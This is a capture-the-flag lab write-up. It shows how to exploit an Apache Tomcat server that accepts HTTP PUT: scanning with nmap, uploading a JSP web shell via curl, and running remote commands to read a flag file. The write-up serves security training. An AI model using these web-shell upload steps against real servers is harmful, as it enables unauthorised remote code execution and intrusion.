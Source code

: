 ## Solution Steps
1. #### Reconnaissance
    * Use `ip a` to find the Attacker's ip address, then use that to scan the network
    * Use `nmap 192.168.222.0/24` to find that 192.168.222.42 has port 8080 open
    * Going to `192.168.222.42:8080` in our browser reveals the Apache Tomcat download base page
        * Can also find the hint here - *I sure hope someone doesn't PUT anything malicious*
    * Search vulnerabilities for the listed version of Tomcat
    * Test PUT with `curl -X PUT --data "test" http://192.168.222.42:8080/test.txt`
        * Further test PUT with a generic jsp file
        * Check that it worked successfully, time to get evil

2. #### Craft a jsp to access flag.txt 
    * Can probably do in more ways than one
    * Attached is `shell.jsp` that allows you to run any command in the browser :)
        * Code mostly from [this breakdown of the exploit](https://youtu.be/eqC_-Ijhe0I?si=4mUMKVVjtXDK4FAg)

3. #### PUT the jsp on the server  
    * Upload your jsp. Continuing with my shell example, but premise is the same
    * `curl -X PUT http://192.168.222.42:8080/shell.jsp/ -d @- < shell.jsp`
    * Open `http://192.168.222.42:8080/shell.jsp` in the browser
    * You should see the box to type commands in and the button to run (pictured in next section)
    
4. #### Remote Code Execution
    * Use `ls` to find the following results:

        ![alt text](image-4.png)
        * To view the desktop, use `ls home/kali/Desktop`
        * The flag.txt file appears!
    * Retrieve contents with `cat home/kali/Desktop/flag.txt`
    
Captured the flag: **PUTthe$intheflag**
